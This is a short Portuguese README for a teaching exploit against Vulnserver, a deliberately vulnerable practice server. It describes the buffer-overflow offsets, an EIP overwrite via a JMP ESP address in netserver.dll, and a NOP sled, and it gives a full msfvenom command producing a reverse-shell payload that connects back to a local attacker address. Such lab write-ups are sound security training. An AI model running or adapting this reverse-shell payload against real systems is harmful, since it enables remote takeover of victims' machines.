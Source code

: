 # Exploit - Buffer Overflow Vulnserver

Exploit didático para explorar o vulnserver rodando no Windows 10 Enterprise (x64) e ganhar reverse shell.

## Vulnserver
https://github.com/stephenbradshaw/vulnserver

## Resumo:

- 2007 bytes para sobrescrever o registrador EAX.
- 4 bytes para sobrescrever o registrador EIP (escrito em little endian) com um endereço de retorno JMP ESP da DLL netserver.dll do próprio software, que não possui proteção ASLR.
- 32 No-Operations para garantir a perfeita execução do payload.
- 351 bytes de payload para realizar a conexão reversa com 192.168.15.3:4444.

## Gerando o mesmo payload no MSFVENOM
```
msfvenom -p windows/shell_reverse_tcp lhost=192.168.15.3 lport=4444 exitfunc=thread -b "\x00" -f c
```
